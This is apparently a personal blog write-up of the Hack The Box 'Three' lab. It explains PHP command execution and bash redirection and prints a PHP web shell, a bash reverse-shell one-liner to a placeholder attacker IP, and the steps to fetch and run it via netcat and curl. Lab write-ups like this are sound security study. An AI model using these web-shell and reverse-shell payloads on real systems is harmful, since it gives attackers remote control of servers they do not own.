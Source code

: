 ```yaml
---
title: 'Obtain a Reverse Shell With PHP and Bash'
description: 'A summary of how to obtain a reverse shell using basic PHP and Bash commands based on HTB Starting Point Tier 1 box "Three"'
pubDate: 'Dec 5 2024'
heroImage: '/blog-placeholder-5.jpg'
---
```


## Obtain a reverse shell by arbitrary command execution in PHP

This article is a high-level summary of the `Three` challenge in HTB Starting Point Tier 1. It covers some basics of the tech involved to help build up an understanding of why the reverse shell exploit works. 

### PHP File
**PHP Script**  
PHP is a general purpose scripting language that can be used to make server-side rendered websites or CLI scripts. A PHP script gets straight into the action by wrapping its code in the `<?php ... ?>` tag. Alternatively, PHP lends itself to web development because a PHP file can simply be a HTML file with an embedded PHP script:
```html
...
<body>
    <?php 
        echo "Hello world";
    ?>
</body>
...
```

**Variables**  
* Variables can be accessed using `$`, e.g. `$myVar`. 
* Global variables can be specified by declaring `global $myVar`
* [Superglobal variables](https://www.php.net/manual/en/language.variables.superglobals.php) exist in every scope throughout a script, such as `$_SERVER`, `$_GET`, `$_POST`, `$_COOKIE`, and a few more. This contains some interesting stuff. I should read up more on this for the future.

**Accessing Query Parameters: `$_GET`, `$_POST`**  
The `$_GET` superglobal contains an associative array (i.e. basically a dictionary) of all URL query parameters passed by a request as seen in the following example. (N.b. `htmlspecialchars` performs HTML encoding so the value is properly rendered on the page).
```php
// $ curl http://example.com?name=Hannes
<?php
    echo htmlspecialchars($_GET["name"]);
?>
```

`$_POST` is very similar, and is used to retrieve variables submitted on a HTTP POST when the content type is `application/x-www-form-urlencoded` or `multipart/form-data`.


**Command Execution**  
PHP can do a lot of things. One such thing is execute commands. There are a few functions that can achieve this in PHP. [This Stack Overflow answer](https://stackoverflow.com/a/39681338) provides a good summary of such commands:

```php
+----------------+-----------------+----------------+----------------+
|    Command     | Displays Output | Can Get Output | Gets Exit Code |
+----------------+-----------------+----------------+----------------+
| system()       | Yes (as text)   | Last line only | Yes            |
| passthru()     | Yes (raw)       | No             | Yes            |
| exec()         | No              | Yes (array)    | Yes            |
| shell_exec()   | No              | Yes (string)   | No             |
| backticks (``) | No              | Yes (string)   | No             |
+----------------+-----------------+----------------+----------------+
```

From the above, `system()` seems like a useful command to be able to execute a command and see the output streamed to the browser or wherever the output is being displayed. Based on all of the above information, it seems we can write a PHP file that will take in a URL query param and execute the command on the server:

```php
<?php
    system($_GET["cmd"]);
?>
```

N.b. after doing some more research, it seems that in other approaches, the `exec()` function is preferred

**Reverse Shell**  
Given all of the above, it seems possible that a reverse shell payload could be written entirely in PHP without the need for a bash script and the need to host the payload somewhere. (I while qualify that statement by saying sometimes it may be useful and perhaps preferred to do such a thing). 

Potential solution number 1 would be put the bash payload in the `cmd` query param. Option number 2 would be to include all of the bash payload in the PHP script, like so:
```php
// Option 1:
// curl http://example.com?cmd=bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F%3CIP%3E%2F1337%200%3E%261

// Option 2:
<?php 
    system("bash -i >& /dev/tcp/<IP>/1337 0>&1")
?>
```

N.b. after doing some more reading online, it seems preferable to change the script. `exec()` may be more flexible for additional scripting. Furthermore, it is preferred to add the `/bin/bash -c` prefix to ensure the command runs in bash. Here is the updated script:
```php
<?php
    exec("/bin/bash -c 'bash -i >& /dev/tcp/<IP/1337> 0>&1'");
?>
```

There are certainly further options to create a reverse shell in bash. It seems the simple way is to execute a system command.


### Bash script
```bash
bash -i >& /dev/tcp/<IP/1337> 0>&1
```

Reading the [bash manpage](https://www.gnu.org/software/bash/manual/bash.html#Redirections) and looking through some [StackOverflow](https://stackoverflow.com/a/11255498) posts, here is some bonus learning on file descriptor redirects in bash:
* `>` "clobbers" the file (removes the pre-existing content and writes the output of the preceding command to it)
* `&` is used in file descriptor redirections. It is commonly seen in the form `&>` or `>&` (both are equivalent, though the first is preferred) to redirect stdout and stderr to the same location. It is equivalent to `>word 2>&1`. They are probably interchangeable because of some computer history where the latter option was the preferred redirection syntax.

Therefore, going back to the description mentioned in the task: 
* `-i` makes bash interactive
* `>&` redirects stdout and stderr to the proceeding location. i.e. `>& <file>`
* `0>&1` redirects stdin to come from same location as stdout
* `/dev/tcp/<ip>/<port>` is a special file to allow raw TCP connections

So the script is writing all stdin, stdout and stderr of an interactive bash shell to the tcp connection specified. Based on my understanding, the redirection of stdin to the tcp connection isn't necessary, but is useful for us as an attacker to identify what command is being executed on the server (e.g. for debugging purposes).


### Exploit
Bringing together all of the above elements, the exploit was executed by:
1. Obtaining arbitrary command execution via a php script
2. Creating a bash script that would write all its stdin, stdout and stderr content to a tcp connection to our machine
3. Setting up a listener on our device using netcat
4. Setting up a http server to serve the reverse-shell bash script
5. Invoking the bad php page to retrieve and execute the bash script (via a curl request)